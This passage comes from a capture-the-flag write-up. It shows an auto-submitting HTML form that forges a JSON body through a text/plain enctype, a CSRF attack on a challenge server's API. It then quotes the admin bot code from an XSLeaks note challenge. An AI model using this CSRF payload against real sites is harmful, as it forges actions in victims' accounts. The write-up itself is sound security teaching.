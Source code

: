 This is where CSRF comes in, but the required format is JSON. How do you CSRF? There is a technique I have seen many times before: if the server does not check the content type, you can do it like this:

``` html
<body>
    <form id=a action="http://124.71.205.122:10002/changeapi.php" method="POST" enctype="text/plain">
      <input name='{"username":"huli", "abc":"' value='123"}'>
    </form>
    <script>
      a.submit()
    </script>
</body>
```

Because POST actually turns the request body into `{key}={value}`, the above form will be `{"username":"huli", "abc":"`=`123"}`, generating a piece of JSON data.

And this challenge does not check the content type, so doing it like the above is fine.

## web/ez_note (8 solves)

![](/img/susctf-2022-writeup/p2.png)

In this challenge, you can create an account and add notes and search for notes. When searching, if a note is found, the client will use something like `setTimeout(() => location='/note/12', 1000)` to jump to the note page.

And this challenge also has an admin bot that will visit the page you provide, so it is obviously an XSLeaks challenge.

First, let's take a look at the code for this admin bot:

``` js
const visit = async (browser, path) =>{
    let site = process.env.NOTE_SITE ?? ""
    let url = new URL(path, site)
    console.log(`[+]${opt.name}: ${url}`)
    let renderOpt = {...opt}
    try {
        const loginpage = await browser.newPage()
        await loginpage.goto( site+"/signin")
        await loginpage.type("input[name=username]", "admin")
        await loginpage.type("input[name=password]", process.env.NOTE_ADMIN_PASS)
        await Promise.all([
            loginpage.click('button[name=submit]'),
            loginpage.waitForNavigation({waitUntil: 'networkidle0', timeout: 2000})
        ])
        await loginpage.goto("about:blank")
        await loginpage.close()

        const page = await browser.newPage()
        await page.goto(url.href, {waitUntil: 'networkidle0', timeout: 2000})

        await delay(5000) /// waiting 5 second.

    }catch (e) {
        console.log(e)
        renderOpt.message = "error occurred"
        return renderOpt
    }
    renderOpt.message = "admin will view your report soon"
    return renderOpt
}
```
